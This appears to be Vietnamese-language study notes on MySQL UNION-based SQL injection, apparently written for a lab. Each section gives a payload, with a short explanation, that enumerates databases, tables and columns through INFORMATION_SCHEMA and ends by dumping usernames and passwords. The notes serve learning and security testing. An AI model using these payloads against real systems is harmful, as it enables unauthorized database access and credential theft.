 # MY SQL INJECTION

## Version
`@@version`

## Database 
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
cn' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta có tên csdl ta lấy được tên table là devs và truy vấn all các columns trên tables devss đó 

## DATA
```sql
cn' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name

